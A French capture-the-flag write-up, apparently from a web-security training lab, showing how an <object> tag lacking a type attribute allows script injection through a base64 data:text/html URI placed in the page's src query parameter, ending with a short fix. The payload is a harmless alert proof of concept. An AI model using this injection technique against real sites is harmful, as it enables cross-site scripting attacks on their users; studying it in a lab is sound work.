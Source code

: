 <h1 align="center">
object
</h1>

<p><b>Trouver la balise object : </b></p>

Cliquer sur le 3iéme logo de la NSA sur l'index du site.  
Une redirection se fait sur `http://<IP>/?page=media&src=nsa`   
Inspecter la page.  
L'image est dans une balise `<object>` et non `<img>`.  

<p><b> Caractéristiques de la balise object :</b></p>

```
Cet élément est conçu pour insérer toute sorte de document. On spécifie de quelle sorte avec l'attribut type en indiquant le type mime, et la source du document avec l'attribut data en indiquant son URI.
Si le navigateur, ou un de ses plugins, sait interpréter ce document, il le fait sinon le contenu imbriqué est affiché.
Tout code HTML peut être insérer comme contenu alternatif, par exemple un lien vers le document, ou une image à la place d'une animation. Ce peut également être un autre object, on parle de "d'object imbriqués".
```

On remarque que dans notre cas, la balise `<object>` n'as pas d'attribut type. Nous allons donc essayer d'exploiter ce manque.

<p><b> Récupération du flag :</b></p>

Nous allons essayer d'insérer le script suivant à la place de l'image:

```
<script>
alert("hey");
</script>
```

Pour cela nous allons l'encoder en base 64, ce qui donne :  
`PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4`  
  
Ensuite rajouter l'entete correspondant :    
`data:text/html;base64,PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4` 
  
En remplacant le lien de l'image de la NSA par le code ci dessus nous avons bien un pop-up qui apparait.  
Cette faille est donc exploitable.  
  
Pour recuperer le flag, il suffit de remplacer le `nsa` de l'url par le code, ce qui donne :  
`http://<IP>/?page=media&src="data:text/html;base64,PHNjcmlwdD4KYWxlcnQoImhleSIpOwo8L3NjcmlwdD4="`  

<p><b> Solution : </b></p>
Ne pas oublier les attributs importants des balises.    </br>
Mettre des balises plus adapté : ici la balise img aurait fait l'affaire.
